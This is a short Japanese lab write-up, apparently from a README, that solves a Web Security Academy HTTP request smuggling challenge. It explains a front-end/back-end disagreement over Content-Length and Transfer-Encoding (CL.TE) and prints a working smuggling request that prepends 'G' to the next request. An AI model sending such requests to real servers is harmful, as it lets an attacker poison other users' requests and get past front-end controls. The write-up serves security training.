 次に、Front-endはTransfer-Encodingをサポートしていないという条件を考えていきます。

HTTP/1では、`Content-Length`と`Transfer-Encoding`が同時にある場合、Content-Lengthを無視することで競合を回避しようとします。

Front-endがTransfer-Encodingをサポートしていないということは、Content-Legthを見ることになりますが、Back-endではTransfer-Encodingを見るはずです。


なんとなく方針が決まりました。

1. Front-endにすべてのメッセージをBack-endに転送させる
2. Back-endにはある位置箇所で区切るようにさせる。

![](./images/README_231013_145945.png)

コレによりリクエストが分割され後続リクエストの先頭にGが付きます。

### Exploit

```text
POST / HTTP/1.1
Host: 0ab700ee0357e6748519032700d100f2.web-security-academy.net
Cookie: session=g85hmwmJrWvKjtQESh1FzJJzvumQfPoT
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

このリクエストを複数回送るとクリアできるはずです。
